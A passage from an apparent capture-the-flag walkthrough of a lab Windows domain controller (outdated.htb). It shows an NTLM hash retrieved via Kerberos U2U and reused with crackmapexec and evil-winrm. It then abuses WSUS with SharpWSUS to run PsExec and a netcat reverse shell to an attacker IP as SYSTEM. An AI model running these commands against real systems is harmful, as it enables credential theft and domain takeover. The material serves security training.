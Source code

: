 ```bash
  Base64(key)              :  8hh6He6G6F2lLiBgwgmo3w==
  ASREP (key)              :  EB63CD6F931B4E922AC0EC5439D0C716

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```
This will retrieve the NTLM hash of the user sflowers, which then can be checked with crackmapexec:
```bash
crackmapexec winrm 10.10.11.175 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5' 
SMB         10.10.11.175    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:outdated.htb)
HTTP        10.10.11.175    5985   DC               [*] http://10.10.11.175:5985/wsman
WINRM       10.10.11.175    5985   DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)
```
The [+] and the (Pwned!) indicates that it is possible to login via winrm so let's do it:
```bash
evil-winrm -i 10.10.11.175 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'         

*Evil-WinRM* PS C:\Users\sflowers\Documents>
```

### Privilege Escalation
If we execute a "whoami /groups" command we receive the following output:
![Description](/assets/img/Pasted image 20230125020305.png)

While searching for this WSUS we find that there is an exploit that allows to execute any command as administrator [SharpWSUS](https://labs.nettitude.com/blog/introducing-sharpwsus/)[^dotnet-compilation]
But as no binary is public we need to compile it from scratch, for that we need a Windows Machine with Visual Studio, please follow the [[dot NET Project Visual Studio compilation]] guide to create the .exe binary.
Where we can compile the WSUS.exe and upload it to the machine.
Once uploaded we then proceed to upload as well PsExec64.exe and nc.exe and from the machine we can execute this payload: 
```powershell
*Evil-WinRM* PS C:\Windows\Temp\PrivEsc> .\SharpWSUS.exe create /payload:"C:\Windows\Temp\PrivEsc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\\Temp\\PrivEsc\\nc.exe -ecmd 10.10.14.2 1234" /title:"Reverse"
```
Then we need to accept this update:
```powershell
*Evil-WinRM* PS C:\Windows\Temp\PrivEsc> .\SharpWSUS.exe approve /updateid:259a3d88-48f6-4c40-96e7-78ea7463bd3c /computername:DC.outdated.htb /groupname:"Reverse"
```
Finally we can check the status of the installation:
```powershell
*Evil-WinRM* PS C:\Windows\Temp\PrivEsc> .\SharpWSUS.exe check /updateid:259a3d88-48f6-4c40-96e7-78ea7463bd3c /computername:DC.outdated.htb

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

```

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio